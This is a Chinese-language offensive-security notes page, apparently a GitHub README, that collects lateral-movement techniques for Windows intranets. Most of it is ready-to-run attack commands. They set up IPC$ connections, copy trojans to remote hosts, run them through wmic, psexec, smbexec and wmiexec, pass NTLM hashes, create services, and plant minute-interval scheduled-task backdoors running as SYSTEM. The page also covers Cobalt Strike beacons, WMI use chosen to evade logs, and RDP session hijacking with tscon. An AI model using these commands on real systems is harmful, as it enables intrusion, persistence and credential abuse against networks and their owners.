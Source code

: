 实战中记录下横向的一些方法，打内网第一步是免杀，其次是横向扩展，横向会碰见很多奇怪的问题，要么权限不够，要不组策略错误，所以总结经常用的基于口令的方法

## 0x00 碰见的横向移动方法总结1_IPC（部分，慢慢更新）

    主机开启139和445端口，IPC移动  
    shell net use \\192.168.10.23\ipc$ "Psft24680!!@@62##" /user:"Administrator"  
    
    查看远程主机文件
    
    
    dir \\192.168.52.143\c$
    dir \\192.168.52.143\c$\xx文件夹
    
    在本地传个马，copy过去    
    shell copy C:\\Windows\\Temp\\ma.exe \\192.168.10.23\c$\Windows\Temp\ma.exe
    shell copy 123.exe \\192.168.250.50\c$
      
    wmic远程执行 
    shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
    
    也可以使用psexec进行远程执行
    
    psexec.exe -accepteula \\192.168.41.150 -h -d c:\wanli.exe
    
    如果发现很久没有上线，可能目标不出网

## 0x01 横向移动方法总结2_beacon
 
    SMB Beacon使用命名管道和父级命名管道进行通信,所以利用他可进行横向移动
    
    使用条件
    
    使用SMB的主机必修接受445端口打开
    只能链接由同一Cobalt Strike实例管理的Beacon
## 0x02 横向移动方法3_PTH攻击

    psexec工具功能之一是远程启动交互式shell,这个工具不需要对方开启3389端口，只需要开启admin$共享即可。
    
    使用方法1
    
    1.psexec 需要建立ipc连接进行横向移动
    
     net use \\192.168.3.144\ipc$ “admin!@#45” /user:"administrator"  #和对方建立IPC链接，出现弹框点击agree
     psexec \\192.168.3.64 -s cmd cmd     #   -s,表示以system权限运行窗口，成功返回目标主机system权限窗口
     
    2.ps不需要建立ipc连接进行横向移动
     
     前提开启admin$共享
    
     psexec \\192.168.3.144 -u administrator -p admin123！！ -s cmd   #实战中碰见很多未知问题，可以换其他的横向方法
     
     注意官方自带的psexec只能通过明文进行传递攻击，密码是行不通的，例如 psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.144 是不可以的
     
    3.利用impacket中的工具包进行横向渗透，可解决密文攻击问题
    
      impacket工具包里有个psexec，可进行密文传递攻击，下载地址：https://github.com/maaaaz/impacket-examples-windows
      
      psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.144
      
      这块记录给自己留个作业，可以写个工具，针对不同的用户和密码进行组合后进行喷洒。
    
    4.smbexec无需IPC连接进行横向移动
    
      smbexec.exe mssql:Admin@1234@192.168.251.252 # 连接本地用户组
      
      smbexec.exe ROOTKIT.ORG/administrator:admin!@#45@192.168.3.144  # 连接域内用户
      
      ![图片](https://user-images.githubusercontent.com/118274389/229289834-9cdb8adb-9302-47bb-9925-609ac5db69e6.png)

      
    以上方法CS里自带该功能。

## 0x03 横向移动方法4_票据攻击

    参考；https://blog.csdn.net/qq_56426046/article/details/127819030

## 0x04 横向移动方法5_远控攻击

  远控攻击就是给目标装一些免安装的远控软件，例如：向日葵、todesk

  https://github.com/wafinfo/Sunflower_get_Password
  
  
## 0x05 利用WMI进行横向移动攻击

  WMI的全名为（Windows Management Instrumentation）由于安全厂商开始将PsExec加入了黑名单，所以攻击者暴露的可能性陡然增加。根据研究情况来看，Windows操作系统默认不会将WMI的   操作记录到日志当中，而且因为采用的是无文件攻击，所以导致WMI具有极高的隐蔽性。由此，越来越多的APT开始使用WMI进行攻击，利用WMI可以进行信息收集、探测、反病毒、虚拟机检测、命令执   行、权限持久化等操作。
  Windows操作系统都支持WMI。WMI是由一系列工具集组成的，可以在本地或者远程管理计算机系统。通过135端口进行利用，支持用户名明文或者hash的方式进行认证，并且该方法不会在目标日志系   统留下痕迹。
  
  利用系统自带的wmi进行明文横向扩展
  
  wmic /node:192.168.3.144 /user:administrator /password:admin!@#45 process call create "md.exe /c ipconfig >C:\3.txt"
  
  在使用自带的wmic时，无回显，ipconfig这条命令显示的内容保存在3.txt文件中，并且是在对方的主机中，较为鸡肋。

## 0x06 利用impacket工具包中的wmiexec进行横向移动

   命令：wmiexec ./Administrator:admin!@#45@192.168.3.144 "whoami" ##如果直接上CS的话，上线后的权限为administrator
   
   hash攻击命令：wmiexec -hashes :518b98ad4178a53695dc997aa02d455c Administrator@192.168.3.73 "whoami"
   
 ## 0x07 IPC+windows服务进行横向移动
 
    该方法横向是将木马传入到对方机器里，通过SC命令创建window来指向该传入的木马，重启该服务或者重启机器达到上线CS的目的，该横向步骤如下；
    
    1.创建IPC$连接。
    
    2.将要运行的服务拷贝到目标机器。
    
    3.执行 sc \\192.168.3.144 create cmd binpath="c:\cmd.bat"
    
    参考文章：https://www.freesion.com/article/2259895176/
    
 ## 0x08 IPC+计划任务进行横向移动
 
     利用AT进行横向移动
 
     1.先建立IPC任务 net use \\192.168.3.144\ipc$ "admin!@#45"/user:rookit.org\administrator
    
     2.添加添加用户bat脚本，也可以添加木马脚本
     
     3.将bat脚本发送到目标机器copy 1.bat \\192.168.3.144\c$
     
     4.利用at启动该bat脚本 at \\192.168.1.144 20:05 c:\adduser.bat （2008及以后系统不在使用at命令，可以尝试其他命令进行启动，如schtasks）
     
      每一分钟启动一次shell.exe木马
     
     schtasks /create /s 192.168.183.130 /tn backdoor /sc minute /mo 1  /tr c:\shell.exe /ru system /f
     
     在没有建立ipc连接前提，可以添加账户密码方式进行启动shell.exe木马（启动成功前提：具有管理员权限）
     
     schtasks /create /s 192.168.183.130 /u administrator /p Liu78963 /tn backdoor /sc minute /mo 1 /tr c:\shell.exe /ru system /f
     
     要是碰见schtasks启动不成功，可以尝试psexec、wmiexec等工具
 
      参考：https://cloud.tencent.com/developer/article/1743842
 
   
  
  
## 0x09 其他横向技巧

  Windows Server 2012及以上不提取密码登录Administrator桌面（登录这个桌面目的是看看Administrator桌面有啥，方便横向）
  
  2012及高版本想要得到密码，只能通过修改注册表，然后让管理员重新登录主机才能得到密码，一般服务器重新进行登录时候很少。我们可以通过一些技巧得到Administrator权限，
  
  拿到shell后，whoami是system权限，可以添加用户后，上隧道把远程桌面代理出来，此时的权限仍然是system权限
  
  此时想要得到Administrator权限步骤如下：
  
  1.psexec启动一个system权限的cmd  命令：psexec.exe -s -i cmd.exe  
  
  2.query user 
  
  3.查看administrator会话id   
  
  4.tscon 1 切换会话id为Administrator权限
  
  
  
  
  


